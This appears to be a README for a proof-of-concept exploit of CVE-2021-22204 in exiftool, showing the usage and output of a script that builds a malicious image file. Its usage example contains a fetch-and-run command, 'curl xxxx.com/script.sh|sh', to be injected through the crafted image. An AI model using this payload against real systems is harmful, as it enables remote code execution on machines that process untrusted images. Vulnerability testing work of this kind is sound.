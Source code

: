 # POC-CVE-2021-22204

https://nvd.nist.gov/vuln/detail/CVE-2021-22204

This is just a convenience script I wrote for testing.

## Output
~~~Shell
Usage ./build_image.pl <cmd to inject>
        Note: if your cmd contains unix special characters use quote!
        EG: ./build_image.pl "curl xxxx.com/script.sh|sh"
This poc generates an image file (notevil.jpg) to be proccessed by vulnerable exiftool.
And requires DjVuLibre to be installed and in PATH
         See: http://djvu.sourceforge.net/
---

[+] Preparing annotation file.
[+] Creating image file with: djvumake notevil.jpg INFO=0,0 BGjp=/dev/null ANTa=ant.out
[+] notevil.jpg created.
~~~
